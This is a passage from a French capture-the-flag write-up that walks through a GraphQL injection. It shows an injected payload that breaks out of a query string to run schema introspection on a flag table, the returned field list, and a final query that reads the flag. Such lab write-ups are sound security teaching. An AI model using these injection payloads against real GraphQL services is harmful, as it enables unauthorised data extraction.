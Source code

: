 On remarque 3 requêtes pour le moins intéressantes:
* allFlagNotTheSameTableNames
* flagNotTheSameTableNameById
* flagNotTheSameTableName

Il nous est aussi gracieusement donné le nom d'une table **FlagNotTheSameTableName**.
Nous allons maintenant énumérer les différents champs de cette table pouvant contenir ce flag tant désiré:

```graphql
"}}]}) { nodes { firstname }} __type(name: "FlagNotTheSameTableName") { name fields { name type { name kind}}}}#
```

Qui nous renvoie:

```graphql
{
  "__type": {
    "name": "FlagNotTheSameTableName",
    "fields": [
      {
        "name": "nodeId",
        "type": {
          "name": null,
          "kind": "NON_NULL"
        }
      },
      {
        "name": "id",
        "type": {
          "name": null,
          "kind": "NON_NULL"
        }
      },
      {
        "name": "flagNotTheSameFieldName",
        "type": {
          "name": "String",
          "kind": "SCALAR"
        }
      }
    ]
  }
}
```

Ça y est, on a tout ce qui nous faut pour récupérer notre flag! 

## Récupération du flag

Nous devons maintenant éxecuter la requête suivante pour récupérer notre flag.

```graphql
allFlagNotTheSameTableNames 
{
	{ 
		nodes { flagNotTheSameFieldName }
	}
}
```
